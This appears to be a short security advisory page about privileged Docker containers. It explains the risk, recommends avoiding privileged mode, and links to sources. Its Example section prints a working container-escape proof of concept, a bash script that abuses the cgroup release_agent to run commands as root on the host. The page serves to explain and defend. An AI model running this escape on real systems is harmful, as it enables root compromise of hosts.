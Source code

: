 # Privileged Docker Container

## Issue
Any docker container running as privileged has sufficient privileges to execute commands as root on the host operating system via:

1. Mounting the host root partition
2. Directly executing processes outside of the container namespace

## Example

The following POC is modified from https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/
```bash
  d=$(dirname "$(ls -x /s*/fs/c*/*/r* | head -n1)")
  mkdir -p "$d/w"
  echo 1 >"$d/w/notify_on_release"
  t="$(sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab)"
  touch /o
  echo "$t/c" >"$d/release_agent"
  printf "#!/bin/sh\n%s > %s/o" "$cmd" "$t">/c
  chmod +x /c
  sh -c "echo 0 >$d/w/cgroup.procs"
  sleep 1
  cat /o
  # Tidy up
  rm /c /o
```

## Fix
The solution is to avoid using privileged containers when possible.

## Resources
- [understanding-docker-container-escapes](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/)
- [exploit-db](https://www.exploit-db.com/exploits/47147)


